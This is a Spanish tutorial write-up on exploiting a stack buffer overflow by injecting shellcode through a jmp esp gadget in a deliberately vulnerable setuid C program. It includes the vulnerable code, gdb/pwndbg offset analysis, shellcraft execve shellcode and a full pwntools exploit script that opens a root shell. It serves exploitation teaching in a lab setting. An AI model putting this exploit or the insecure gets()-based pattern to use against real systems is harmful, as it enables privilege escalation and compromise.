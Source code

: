 ```yaml
---
original autor: CrazyCat
coautor: naibu3
---
```


#bufferOverflow 

## ¿Qué es?

Ya hemos visto cómo funciona un *buffer overflow* de tipo *Ret2Win*, y como poder pasar parámetros. Sin embargo, en multitud de ocasiones no existirá una función concreta a la que llamar. En estos casos, podremos tratar de inyectar en el *stack* un *shellcode* que nos otorgará una *shell*.

## Ejercicio1

### Compilar el binario

Para este ejercicio utilizaremos el siguiente código (está en la carpeta de ejercicios):

```c
#include <stdio.h>

int secret_function() {
    asm("jmp %esp");
}

void receive_feedback()
{
    char buffer[64];

    puts("Please leave your comments for the server admin but DON'T try to steal our flag.txt:\n");
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    receive_feedback();

    return 0;
}
```

En este caso no tenemos una función maliciosa, aunque sí que hay una función a la que no se llama. Esto se debe a que tendremos que hacer uso de un *gaget ROP*, `jmp %esp`, por ello está dentro de la función `secret_function`.

Por otro lado, con `setuid` y `setgid` hacemos que el binario se ejecute como *root*, dando como resultado que la *shell* que obtengamos tenga privilegios.

La idea sería tener un archivo *flag.txt* que sólo pueda ser leído por el administrador, de forma que tengamos que conseguir una *shell* como *root* para leerlo.

Vamos a compilar el binario, es importante que no tenga la protección *NX* (`-z execstack`), ya que es la que hace que no podamos ejecutar instrucciones alojadas en el *stack*. 

```bash
gcc -o server server.c -fno-stack-protector -z execstack -no-pie -m32
```


### Análisis del binario

Como hemos dicho, si lanzamos [[checksec]], debería tener una salida tal que:

```checksec
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Importante que esté el `NX disabled`. También podríamos lanzar [[ghidra]] y *file*, pero como hemos compilado nosotros el código no es necesario.

Vamos a proceder al análisis con [[gdb]]-[[pwndbg]], comenzando por encontrar el *offset* hasta sobrescribir la dirección de retorno con *cyclic*:

```bash
gdb-pwndbg server
```
```gdb-pwndbg
cyclic 100
```
```gdb-pwndbg
run
```
```server
Please leave your comments for the server admin but DON'T try to steal our flag.txt:

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
```

Como siempre, revisamos el valor de `EIP`:

```gdb-pwndbg
*EBP  0x61616173 ('saaa')
*ESP  0xffffd0b0 ◂— 'uaaavaaawaaaxaaayaaa'
*EIP  0x61616174 ('taaa')
```

Y con *cyclic* calculamos el *offset*:

```bash
cyclic -l taaa
```
```cyclic
Found at offset 76
```

Como vemos, es 76. Como teníamos una función que llamaba a la instrucción `jmp %esp`, podemos tratar de me introducir en dicho registro un *shellcode* y llamar a dicha instrucción.

Como hemos visto antes, el registro `esp` es el contiguo a `eip` (`eip` contenía `taaa` y `esp`, `uaaav...`), por tanto podríamos hacer la prueba introduciendo caracteres con python2:

```bash
python2 -c 'print "A"*76 + "B"*4 + "C"*100'
```

Si copiamos la salida y se la pasamos al programa mediante [[gdb]]-[[pwndbg]], podremos ver lo siguiente:

```server
Please leave your comments for the server admin but DON'T try to steal our flag.txt:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
```
```gdb-pwndbg
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd0b0 ◂— 'CCCCCCCC[...]'
*EIP  0x42424242 ('BBBB')
```

Por lo que podemos concluir que efectivamente somos capaces de escribir en dicho registro y en la dirección de retorno.


## Explotación

Para la explotación, almacenaremos un *shellcode* en `esp` y sobrescribiremos la dirección de retorno con la dirección del *gadget* (la instrucción en ensamblador) de `secret_function` (`jmp %esp`), de forma que dicha instrucción ejecutará el *shellcode*.

Para obtener la dirección del *ROP gadget* (la instrucción) `jmp %esp`, utilizaremos [[ropper]]:

```bash
ropper --file server --search "jmp esp"
```
```ropper
0x0804919f: jmp esp;
```

Por otro lado, el *shellcode* que utilizaremos lo obtendremos con la herramienta *shellcraft* (incluida en la librería [[pwntools]]):

```bash
shellcraft -l | grep linux | grep sh
```
```shellcraft
[...]
i386.linux.sh
[...]
```

```bash
shellcraft i386.linux.sh -f a
```
```shellcraft
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```
> Para verla en formato ensamblador.

Para la explotación utilizaremos python3 y la librería [[pwntools]]. Crearemos un *script* que simplificará el proceso. El *script* es el siguiente:

```python
#!/bin/python3

from pwn import *

exe = './server'

#Automatically get context arch, bits, os etc, para luego poder buscar rop gadgets
elf = context.binary = ELF(exe, checksec=False)

#context.log_level = 'debug'    #Modo debug para ver que esta pasando

io = process(exe)

#Offset hasta EIP
padding = 76

jmp_esp = asm('jmp esp')    #Crea la instruccion jmp esp en ensamblador para poder buscarla
jmp_esp = next(elf.search(jmp_esp))     #Busca la secuencia jmp esp en el contexto

shellcode = asm(shellcraft.sh())

#shellcode += asm(shellcraft.exit())

# Build payload
payload = flat(
    asm('nop') * padding,   # Podrian ser A, pero es mas correcto
    jmp_esp,
    #asm('nop') * 16,   #A veces se necesita un pequeño offset, que debe ser nops para que no se ejecute
    shellcode
)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

Como vemos, debemos buscar la instrucción (en ensamblador) en el contexto del binario. Posteriormente, creamos un *payload* y lo pasamos al programa, para finalmente ponernos en modo interactivo para utilizar la *shell*.

Y ya estaríamos dentro!